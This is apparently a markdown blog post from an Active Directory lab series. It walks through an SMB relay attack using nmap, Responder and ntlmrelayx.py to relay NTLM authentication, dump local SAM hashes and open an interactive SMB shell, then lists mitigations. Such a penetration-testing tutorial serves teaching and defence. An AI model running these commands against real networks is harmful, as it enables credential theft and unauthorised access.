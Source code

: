 ```yaml
---
title: "SMB Relay Attack "
layout: post
category: Active-Directory
tags: [SMB]
excerpt: " "
---
```


# SMB Relay Overview 

A SMB relay attack is where an attacker captures a users NTLM hash and relays its to another machine on the network. Masquerading as the user and authenticating against SMB to gain shell or file access

## **How does an SMB Relay Attack Happen?**  
The SMB Relay attack abuses the NTLM challenge-response protocol. Commonly, all SMB  sessions used the NTML protocol for encryption and authentication purposes (i.e. NTLM  over SMB) . However, most sysadmins switched to KILE over SMB after research proved that the first version of NTLM is susceptible to Man-in-the-Middle attacks, the SMB Relay attack counting among them.  
Now, in normal client-server communication, there are a series of requests followed by  responses. **The idea behind an SMB Relay attack is to position yourself between the client and the server in order to capture the data packets transmitted between the two entities.**  


## **Requirements**  
-  SMB signing must be disabled on the target  
-  Relayed user credentials must be admin on machine



#  SMB Relay Attack 
-  **Discovering Hosts with SMB Signing Disabled**

```bash
sudo nmap -p445,139 --script=smb2-security-mode.nse -T4 192.168.1.0/24
```

![Desktop View](/assets/img/AD_Lab/1 (67).png){: }


**add ip of disable smb to target.txt

-  **Configuring Responder**
Because we have to relay the hash instead of just capturing it responder needs to have both the SMB server turned off and HTTP turned off. Edit the responder config file in **/etc/responder/Responder.conf** and turn off SMB and HTTP and then start responder 

![Desktop View](/assets/img/AD_Lab/1 (68).png){: }

**Run responder** 

```bash 
sudo responder -I eth0 -rdw -v
```

Responder should now look like this:

![Desktop View](/assets/img/AD_Lab/1 (69).png){: }

-  **Setup the relay script**

```bash
sudo ntlmrelayx.py -tf target.txt -smb2support
```

![Desktop View](/assets/img/AD_Lab/1 (70).png){: }

-  **Capturing the hash, relaying it and dumping the local SAM file**

Request a share that does not exist using an admin account. Notice how the script checks if Remote Registry is enabled and if not, enables it, dumps the SAM and then re-disables it.

![Desktop View](/assets/img/AD_Lab/1 (65).png){: }

- now we get SAM hash , we can crack them or pass this hash to gain a shell

![Desktop View](/assets/img/AD_Lab/1 (71).png){: }

**We can then takes these hashes and crack them or we can even attempt a pass-the-hash attack and attempt to gain a shell with the NTLMv2 hash on a different machine on the network.**

- after take hash can perform [pass-the-hash ](https://seczone1.github.io/Active_Directory/2022-07-10-Pass-the-Hash) attack 

### Get Interactive Shell

```bash
sudo ntlmrelayx.py -tf target.txt -smb2support -i
```

![Desktop View](/assets/img/AD_Lab/1 (72).png){: }

- run nc for localhost and  port

```bash
nc 127.0.0.1 11001

-> help
```

![Desktop View](/assets/img/AD_Lab/1 (73).png){: }


# SMB Relay Attack Mitigation
-  Enable SMB Signing on all devices. This can be done via Group Policy
-  Disable NTLM authentication on the network. Use Kerberos instead.
-  Limit Domain Admins to specific task

# Conclusion
SMB relay attacks don’t have the same potency as ransomware such as Ryuk or RobbinHood, but they can provide the necessary ‘backdoor’ to those two and others. As always, play it safe, keep your apps and software up-to-date, and employ great cybersecurity.


# reference
- https://cqureacademy.com/blog/penetration-testing/smb-relay-attack
- https://heimdalsecurity.com/blog/what-is-an-smb-relay-attack/
